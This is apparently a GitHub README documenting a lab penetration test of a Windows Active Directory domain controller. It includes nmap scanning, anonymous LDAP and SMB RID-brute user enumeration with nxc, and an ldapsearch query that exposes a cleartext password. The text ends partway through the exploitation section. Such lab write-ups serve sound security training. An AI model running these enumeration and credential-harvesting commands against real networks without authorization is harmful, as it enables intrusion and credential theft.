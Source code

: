 # Active-Directory-Pen-testing-Lab
This project simulates a real-world internal penetration test in a controlled lab environment. The goal is to compromise a Windows Server 2022 Domain Controller and Internal Network using a Kali Linux attacker machine through enumeration, exploitation, and post-exploitation techniques.

Project Summary

- **Attacker Machine:** Kali Linux
- **Target Machine:** Windows Server 2022 (Active Directory Domain Controller)
- **Domain Name:** `orb.corp0`
- **Objective:** Gain initial access, enumerate the domain, escalate privileges, and extract sensitive data (e.g., password hashes, domain admin credentials).
- **Scope:** Internal black-box test — attacker has direct network access but no initial credentials.

Lab Architecture

| Machine          | Role                            | IP Address     |
|------------------|---------------------------------|----------------|
| Kali Linux       | Attacker                        | 192.168.50.10  |
| Windows Server   | Domain Controller (DC)          | 192.168.50.129 |
| Windows 10       | Windows client                  |                |

## 1. Information Gathering

### Nmap Scan

> **Tool:** `nmap`  
> **Purpose:** Identify open ports and running services on the target system.

```bash
nmap -sCV -p- 192.168.50.129

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows SMB file sharing
464/tcp   open  kpasswd5      Kerberos password change
593/tcp   open  ncacn_http    RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Global Catalog LDAP
3269/tcp  open  tcpwrapped
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0
5985/tcp  open  http          Windows Remote Management (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
```
> **Purpose:** Identify open ports and running services on the target system.

## 2. Enumeration

### LDAP Enumeration with NetExec (nxc)

> **Tool:** `nxc`

> **Purpose:** Perform anonymous LDAP queries to extract usernames and domain structure

```bash
nxc ldap 192.168.50.129 -u '' -p '' --users

[*] Total records returned: 67
DC=orb,DC=corp
CN=Administrator,CN=Users,DC=orb,DC=corp
CN=Guest,CN=Users,DC=orb,DC=corp
CN=krbtgt,CN=Users,DC=orb,DC=corp
CN=alice wonderland,CN=Users,DC=orb,DC=corp  
CN=bob builder,CN=Users,DC=orb,DC=corp
CN=jerry cantrell,CN=Users,DC=orb,DC=corp
CN=kurt cobain,CN=Users,DC=orb,DC=corp 
CN=mssql_svc,CN=Users,DC=orb,DC=corp
CN=http_svc,CN=Users,DC=orb,DC=corp
CN=Floor,CN=Users,DC=orb,DC=corp
CN=IT,CN=Users,DC=orb,DC=corp
CN=HR,CN=Users,DC=orb,DC=corp
CN=Management,CN=Users,DC=orb,DC=corp
```
> **Success:** Anonymous access to LDAP allowed us to enumerate domain users and service accounts without credentials. 

### SMB Enumeration with NetExec RID Brute Force

> **Tool:** `nxc`

> **Purpose:** Enumerate RID values via SMB to uncover domain user accounts

```bash
nxc smb 192.168.50.129 -u 'anonymous' -p '' --rid-brute > domainusers.txt
1101: ORB\DnsAdmins (SidTypeAlias)
1102: ORB\DnsUpdateProxy (SidTypeGroup)
1103: ORB\alice.wonderland (SidTypeUser)
1104: ORB\bob.builder (SidTypeUser)
1105: ORB\jerry.cantrell (SidTypeUser)
1106: ORB\kurt.cobain (SidTypeUser)
1107: ORB\dana.scully (SidTypeUser)
1108: ORB\walter.white (SidTypeUser)
1109: ORB\james.bond (SidTypeUser)
1110: ORB\bruce.wayne (SidTypeUser)
```
> **Success:** Successfully enumerated valid domain users and groups using SMB anonymous access with RID brute-forcing

## 2. Exploitation 

Using the usernames previously enumerated, several attacks were launched to gain initial access and extract service account Kerberos tickets for offline password cracking.

### LDAP Description Disclosure

> **Tool:** `ldapsearch`  
> **Purpose:** Dump LDAP user attributes and look for password leaks or notes in the `description` field.

```bash
ldapsearch -x -H ldap://192.168.50.129 -b "DC=orb,DC=corp" '(objectclass=person)' | grep -ia desc
```
**Results:** description: 3edcxsw2#EDCXSW@
A cleartext password was found in the description field — likely a human error or documentation leak.
